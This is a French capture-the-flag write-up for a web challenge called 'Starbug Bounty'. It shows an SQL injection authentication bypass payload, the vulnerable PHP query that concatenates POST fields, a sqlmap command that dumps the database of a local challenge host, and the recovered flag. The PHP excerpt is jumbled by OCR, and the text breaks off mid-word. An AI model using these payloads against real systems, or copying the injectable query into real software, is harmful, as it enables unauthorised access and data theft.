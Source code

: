 # Web 100 - Starbug Bounty

On détecte une simple injection SQL, il est donc possible de contourner l’authentification avec le
payload suivant.
> Username : ‘ or 1<2 --
> Password : peu importe


En injectant le payload dans le champ “username” de la requête 1 la condition devient vraie et le reste de
la requête est ignorée car elle est précédée d’un commentaire.

```php
1 - $stmt = $pdo->query("SELECT password='".$_POST['password']."'");

* FROM users WHERE username='".$_POST['username']."' and

2 - $stmt = $pdo->query("SELECT * FROM users WHERE username='' or 1<2 --' and password='".$_POST['password']."'");```


Nous sommes connectés sur l’interface et nous pouvons donc utiliser le flag qui nous est donné :
**ese{Auth_SqL_1s_s0000_w34k}**




Il était aussi possible d’utiliser SQLMap pour extraire le contenu de la base de données et ensuite se
connecter avec les identifiants récupérés.
> python
sqlmap.py
-u
'http://127.0.0.1/ESE-Epreuves/ESE%20Web%2002%20-
%20Starbug%20Bounty%20-%20Max/Epreuve/' --forms --dbms sqlite --dump

En fournissant les bonnes options à SQLmap telles que le type de base de données, ici SQLITE, on peut
détecter une injection SQL de type UNION. Avec l’option “dump”, l’outil va automatiquement récupérer
toute la base de données.

**Attention** : SQLMap est un outil assez intrusif, à la fin du CTF nous avions plus de 10 GO de logs sur la
machines hébergeant les challenges.

>Database: SQLite_masterdb
>
>Table: users [3 entries]
>
>+----+----------+------------------------+
>
>| id | username | password|
>
>+----+----------+------------------------+
>
>| 1 | admin | Auth_SqL_1s_s0000_w34k |
>
>+----+----------+------------------------+
>
SQLMap nous ressort la base de données et on peut utiliser les iden